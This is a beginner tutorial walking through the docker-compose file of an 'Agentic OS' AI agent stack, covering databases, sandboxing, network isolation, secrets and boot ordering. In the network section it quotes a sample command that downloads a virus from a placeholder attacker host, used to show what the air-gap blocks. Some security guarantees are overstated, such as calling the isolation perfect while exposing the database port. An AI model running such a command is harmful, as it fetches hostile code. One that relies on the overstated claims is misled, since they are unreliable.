

# 🐳 The Ultimate Masterclass: Understanding Agentic OS Docker Infrastructure

Welcome to the definitive, ground-up guide to the Agentic OS container architecture. This document is written specifically for those who are beginners to Docker, DevOps, or system administration, but it is engineered to take you all the way to a senior-level understanding of how complex, multi-agent AI frameworks are deployed in the real world.

We will go line-by-line, concept-by-concept. Grab a coffee, settle in, and let's demystify exactly how a modern "System of Systems" operates.

---

## 🛑 PART 1: The Core Philosophy of Docker

Before we can look at our `docker-compose.yml` file, we must understand the fundamental problem Docker solves.

### The "It Works on My Machine" Problem
Imagine you write a brilliant Python script on your Macbook. It uses specific versions of software (like Python 3.10 and a specific math library). You send the code to your friend, who uses Windows. When they run it, it completely crashes because they have Python 3.8 and a different math library installed.
For decades, developers suffered from the "It works on my machine!" problem. Environmental differences meant deploying software was an absolute nightmare.

### The Solution: Shipping Containers
In the 1950s, the global shipping industry invented the standardized steel shipping container. Suddenly, it didn't matter if you were shipping cars, grain, or electronics—they all fit perfectly onto ships, trains, and trucks because the *box* was standard.

Docker is the software equivalent of a shipping container. 
When we run Docker, we aren't just sending our Python code; we are literally putting an entire, microscopic Linux operating system, the exact version of Python 3.10, the specific math libraries, and our code into a virtual, invisible "box" called a **Docker Container**. 
When your Windows friend downloads that container, it boots up its own invisible Linux environment. The code runs flawlessly because the environment inside the container is identical every single time.

### Compose: The Blueprint
If Docker builds one container, **Docker Compose** is the master architect for a factory. 
A modern application is never just one program. You need a database container, a web server container, an AI container, and a memory cache container. `docker-compose.yml` is the playbook. It tells the Docker engine:
*"I need 8 specific containers built. I need them wired together with these specific virtual ethernet cables, and they must be turned on in a very specific order."*

---

## 🗺️ PART 2: The Agentic OS Global Architecture

Here is the 10,000-foot view of how the Agentic OS containers physically wire together in our data center. 

```mermaid
graph TD
    classDef external fill:#f96,stroke:#333,stroke-width:2px;
    classDef infra fill:#3498db,stroke:#fff,stroke-width:2px;
    classDef data fill:#2ecc71,stroke:#333,stroke-width:2px;
    classDef worker fill:#9b59b6,stroke:#fff,stroke-width:2px;
    classDef isolated fill:#e74c3c,stroke:#fff,stroke-width:2px;

    User([👤 You / The Internet]):::external
    
    subgraph "Agentic OS Virtual Environment"
    
        subgraph "Public Facing Ports"
            UI[🖥️ agent-ui (Port 8501)]:::infra
            CORE[⚙️ agent-core (Gateway Port 8000)]:::infra
        end

        subgraph "Identity Provider"
            AUTH[🔑 keycloak (Port 8080)]:::infra
        end

        subgraph "Storage & Memory Layer (Backend-Net)"
            PG[(🐘 postgres + pgvector)]:::data
            REDIS[(🔥 redis Pub/Sub)]:::data
        end

        subgraph "Background Compute Fleet"
            WORK[🤖 workers (Async LLM Loop)]:::worker
            RL[🧠 rl-router (Learning Feedback)]:::worker
        end

        subgraph "Air-Gapped Tooling"
            BROWSER[🌐 lightpanda (Port 9222)]:::isolated
            SANDBOX[💥 tools-api (Python Sandbox)]:::isolated
        end
        
    end

    User ==>|Clicks Buttons| UI
    UI ==>|REST/WebSockets| CORE
    UI -.->|Token Verification| AUTH
    CORE -.->|Token Validation| AUTH

    CORE ===>|Saves State| PG
    CORE ===>|Publishes Task| REDIS
    REDIS ===>|Worker Grabs Task| WORK
    WORK ===>|Saves Result| PG
    
    WORK -.->|Scrapes Web| BROWSER
    WORK -.->|Runs Raw Code| SANDBOX
    
    CORE -.->|Asks for Route| RL
    RL -.->|Reads Trace Data| PG
```

### Flow Breakdown:
1. You (the user) connect to the `agent-ui` which acts as the pretty face of the operation.
2. The UI sends a signal to `agent-core`. 
3. The `agent-core` doesn't do the heavy lifting. It publishes a massive "HELP WANTED" sign into `redis`.
4. The `workers` (background AI specialists) are constantly staring at `redis`. They see the sign, grab the task, and start thinking.
5. If the worker needs to remember something, it searches `postgres`. If it needs to read the internet, it asks `lightpanda`. If it needs to run a math script, it throws code at the `tools-api`.
6. Once the worker is done, it posts the final answer back to `postgres`. The `agent-core` reads it and sends it back to your screen.

Every single one of these steps happens in under 500 milliseconds across completely isolated Linux containers.

---

## 🐘 PART 3: The Persistence Layer (Databases)

Let's dive into the actual `docker-compose.yml` code. The most important organ in your body is your memory. The same applies to AI. 

### Service: Postgres + pgvector
```yaml
  postgres:
    image: pgvector/pgvector:pg16
    ports:
      - "5432:5432"
    environment:
      POSTGRES_DB: agent_os
      POSTGRES_USER: agent
      POSTGRES_PASSWORD_FILE: /run/secrets/postgres_password
    secrets:
      - postgres_password
```

#### What is this doing?
If we just used vanilla Postgres (`image: postgres:16`), our AI would be completely useless. AI models (Large Language Models) do not understand English words. If you ask an AI for "Apple," it converts the word "Apple" into a massive math coordinate point containing 1,536 floating decimal numbers (e.g., `[-0.012, 0.455, 0.002...]`). This math array is called an **Embedding Variable**.
The `pgvector` container is exactly like Postgres, but it has a specialized math engine built into it that allows it to calculate the mathematical distance between massive arrays lightning-fast.

#### The Ports
`ports: "5432:5432"` is a literal mapping. The left side is your physical machine (your Mac/Windows). The right side is the invisible Docker container. This rule says: "If someone tries to talk to port 5432 on your laptop, funnel that traffic directly into port 5432 on the container."

#### Volume Mounts (Hard Drives)
By default, Docker containers are ephemeral (they have amnesia). If you turn off the postgres container, every single row of data is wiped permanently. To solve this, we use `volumes`:
```yaml
    volumes:
      - pgdata:/var/lib/postgresql/data
      - ./db/init:/docker-entrypoint-initdb.d:ro
```
This punches a hole between the virtual container and your physical hard drive. The actual hard drive permanently stores the database files, so if the container reboots, your memories remain. The `./db/init` rule tells the database to run all of our `.sql` file setups the very first time it boots.

### Service: Redis
```yaml
  redis:
    image: redis:7.2.4-alpine3.19
    command: ["sh", "-c", "redis-server --requirepass $$(cat /run/secrets/redis_password)"]
```
Redis is the nervous system. Unlike Postgres, which saves things to a slow spinning hard drive (Disk), Redis stores data entirely in volatile RAM (Memory). It is face-meltingly fast, but if the power goes out, the data vanishes. We don't care, because we only use it for active, chaotic communication (the "HELP WANTED" signs we talked about earlier). The `alpine` tag means it is running on a critically small, lightweight Linux operating system (Alpine Linux) that is less than 5MB in size.

---

## 🔒 PART 4: Demystifying DevSecOps (Security)

You might have noticed that every single service in the file is copy/pasting a specific block of code:
```yaml
    cap_drop:
      - ALL
    security_opt:
      - no-new-privileges:true
```
Welcome to advanced Linux security. As a beginner, you must understand this concept: **By default, Docker is dangerously insecure.**

When you spin up a Docker container on your laptop, the program inside that container is granted several Linux "Capabilities" (superpowers). For example, a container defaults to having the superpower to change file ownership, alter internet routing rules, or bypass read-only permissions.
If you are running an AI that generates code... what happens if the AI hallucinates, generates a malicious bash script, and executes it? If that container has native superpowers, the malicious script can theoretically "break out" of the container and attack your actual laptop.

By declaring `cap_drop: ALL` (Capability Dropping), we violently strip the container of every single superpower. We forcefully castrate the container's kernel interactions. 

By declaring `no-new-privileges: true`, we guarantee that even if a hacker snakes inside the container and finds a file marked as "administrator," they are physically blocked from elevating their permission level. They are permanently trapped in an unprivileged cage.

---

## 🕵️‍♂️ PART 5: Secrets Management (No Passwords Allowed!)

Look at how we pass passwords into the database:
```yaml
    environment:
      POSTGRES_PASSWORD_FILE: /run/secrets/postgres_password
    secrets:
      - postgres_password
```
A beginner mistake is to write `POSTGRES_PASSWORD: mySuperPassword123` right into the `environment:` block. 
Why is this a disaster? Because any developer or malicious script that types `docker inspect [container_name]` will see the raw password blasted onto their screen in plain text.

Instead, Agentic OS uses **Docker Secrets Management**.
1. You create a simple text file on your laptop: `./secrets/postgres_password.txt`.
2. Docker reads that physical file.
3. Docker injects the contents of that file into the container's `/run/secrets/` directory. 
4. The magic here is that `/run/secrets/` is a `tmpfs` (Temporary File System). It literally does not exist on a hard drive. It exists purely hovering in RAM. 
5. The container reads the RAM, authenticates, and then the RAM vanishes when it reboots. Your passwords are never visible to inspectors and are never logged to a hard drive sector!

---

## 🌐 PART 6: The AI Tooling Cluster

AI models are incredibly smart, but they are inherently trapped in a box. An LLM cannot natively access the internet, and an LLM cannot execute math. It can only predict the next word. 

To turn an LLM into an "Agent", you must give it hands. In our Docker infrastructure, we build two physical pairs of hands.

### Hand 1: The Headless Browser (`lightpanda`)
```yaml
  lightpanda:
    image: browserless/chrome:latest
    ports:
      - "9222:3000"
```
If an AI agent needs to research modern information (e.g., "What is the stock price of Apple right now?"), it cannot just download the HTML of the website. Modern websites are aggressively built with JavaScript. If you download the raw HTML, you just get a blank page that says "Please enable JavaScript."

To solve this, we deploy a **Headless Browser**. This is literally a full installation of Google Chrome running blindly in the background without a monitor attached. The AI sends a command to Port 9222 using the Chrome DevTools Protocol (CDP). The AI acts like a puppeteer—it tells Chrome to open a tab, type into a search bar, hit enter, wait 5 seconds for the JavaScript to render, and then extract the visual text. 

### Hand 2: The Detonation Sandbox (`tools-api`)
```yaml
  tools-api:
    build:
      context: .
      dockerfile: agent_core/Dockerfile.tools
```
Sometimes, an AI decides the only way to solve your complex physics problem is to write a 100-line Python script using advanced math libraries, and then execute that script. 

If we let the AI run this script inside the `agent-core` container, a hallucinating AI could accidentally write a script that deletes critical database config files, or it could hit an infinite loop that crashes the entire core API. 

The `tools-api` is the ultimate disposable "Detonation Chamber." 
1. The AI writes the raw code.
2. The AI throws the code over the fence into the `tools-api` container.
3. The sandbox runs the code completely detached from the main operating system.
4. If the code works, it returns the math answer.
5. If the code breaks the container, the container is destroyed and an identical fresh clone takes its place instantly.

---

## 🔗 PART 7: Internal Network Isolation (Air-Gapping)

Let's look at how we wire the warehouse.



In the `docker-compose.yml`, you will see networks defined like this:
```yaml
networks:
  sandbox-net:
    internal: true
```
The keyword `internal: true` creates an air-gap (a literal severed cable). Any container attached to that network completely loses the ability to dial out to the wider public internet.

If the malicious code running inside `tools-api` tries to `curl http://hackers-server.com/download_virus`, Docker explicitly kills the packet. The code simply times out. 

Furthermore, because `tools-api` is ONLY attached to `sandbox-net`, and Postgres is ONLY attached to `backend-net`, the isolation is mathematically perfect. It is physically impossible for the sandbox environment to even *attempt* to knock on the database's front door. The network bridge simply does not exist.

---

## 📉 PART 8: Resource Limits & Load Balancing

AI creates severe engineering problems related to memory spikes. Loading the underlying neural network models requires gigabytes of active RAM buffers. If an AI generates a 50,000 token response, your RAM usage skyrockets.
If you let containers battle for host RAM freely, the Linux kernel on your laptop will panic and execute what is known as an `OOM-Kill` (Out Of Memory Termination). It will randomly execute a process to save the system, which might crash your entire project or freeze your computer.

### The Limits Block
```yaml
    deploy:
      resources:
        limits:
          cpus: '2.0'
          memory: 2G
```

By imposing hard `limits`, we instruct the Docker engine to act as a strict bouncer. 
1. The `agent-core` is allowed to burst up to utilizing 2 full CPU cores. If it tries to use 3 cores, Docker physically throttles the instruction set processing. 
2. The container is granted a maximum of 2 Gigabytes of RAM. If the python script tries to load a 3 Gigabyte array into memory, Docker intercepts the allocation and forcefully crashes *just that individual container*. The rest of your laptop, and the other containers, remain perfectly untouched and buttery smooth. 

Docker Compose will notice the container died, and depending on your `restart` policies, will cleanly reboot a fresh, healthy version of the container automatically.

---

## 🌟 PART 9: The Gateway Core (agent-core vs workers)

Let's look at the absolute brain of the operation. This is where the magic happens. We split the intelligence into two distinct types of containers: `agent-core` and `workers`.

### `agent-core` (The Thinker)
This container imports a package called **LangGraph**. LangGraph is a system that allows AI to form a complex flowchart of thoughts. Instead of an AI just outputting a single text string, LangGraph forces the AI into a strict cognitive loop called a `ReAct` (Reasoning and Acting) loop.
1. **Thought:** The AI looks at the user's question, and outputs a thought: *"The user wants to know the temperature in Tokyo. I am not a weather machine. I must use a weather tool."*
2. **Action:** The AI selects a tool and provides parameters: `fetch_weather(location="Tokyo")`.
3. **Observation:** The AI waits for the result.
4. **Thought:** *"The tool says it is 75 degrees. I have the answer."*
5. **Final Response.**

### `workers` (The Doers)
While the core API manages the grand strategy, the `workers` container actually runs the dirty business logic. It sits there polling the Redis message broker. 
When the `agent-core` decides it needs a web search (an Action), it doesn't do it itself. It shoots the task over to the `workers`. 

By splitting the "Thinkers" from the "Doers" into separate physical Docker containers, we unlock **Horizontal Scaling**. If your app becomes hugely popular, and you have thousands of users asking for weather searches simultaneously, your single `agent-core` would melt. But with this separation, you can tell Docker to boot up 50 copies of the `workers` container across different server racks. They will all connect to the same Redis instance, chewing through the giant pile of tasks blazingly fast in parallel!

---

## 🚦 PART 10: Healthchecks and Deterministic Boot Sequencing

Computers are stubbornly fast, which creates a huge problem during booting. If you type `docker compose up -d`, Docker tries to race-condition turn on all 8 containers at the exact same millisecond. 
The `agent-core` API might finish booting in 1 second, but `postgres` (the database) might take 5 seconds to run its initial setup scripts. 
If the API comes online and tries to connect to a database that isn't fully awake yet, the API completely panics, throws a FATAL connection error, and crashes immediately.

### The Healthcheck Shield
```yaml
  postgres:
    healthcheck:
      test: [ "CMD-SHELL", "pg_isready -U agent -d agent_os" ]
      interval: 5s
      timeout: 5s
      retries: 5
```
This block forces Postgres to take a physical pulse. Every 5 seconds, Docker runs the native `pg_isready` command inside the container. It keeps asking, "Are you alive? Are you alive?" until it gets a successful ping back.

### The Depends_On Guardrail
Now, look at the `agent-core` block:
```yaml
    depends_on:
      postgres:
        condition: service_healthy
```
This is the magic link. Docker reads this and says: *"Halt. I refuse to even attempt booting the agent-core container until the exact second that Postgres switches its status to physically healthy."*

This creates a perfectly deterministic boot sequence tree! The database boots first, then the message broker, then the identity provider, then the core API, and finally the user interface. Everything aligns like falling dominoes.

---

## 🎉 Summary: You are now an Orchestrator!

If you made it this far, congratulations. You have traversed the exact logic that powers enterprise Kubernetes environments at Fortune 500 tech companies.

To recap the master sequence of your `docker-compose.yml`:
1. We establish a massive **Persistence Engine** (`pgvector`) capable of semantic AI math.
2. We establish an **Event Bus** (`redis`) connecting our army of isolated parallel agents.
3. We boot the **Intelligence Gateway** (`agent-core`) to act as the cognitive router parsing intent.
4. We lock every piece of hardware inside **Air-Gapped Subnetworks** (`sandbox-net`).
5. We brutally sever the kernel superpowers of every container (`cap_drop: ALL`) to prevent zero-day breakouts.
6. We bind everything to hard **Resource Quotas** (`memory: 2G`) to prevent infinite AI loops from melting the server.

You are now officially capable of reading, expanding, and deploying secure AI Infrastructure-as-Code. Keep building! 
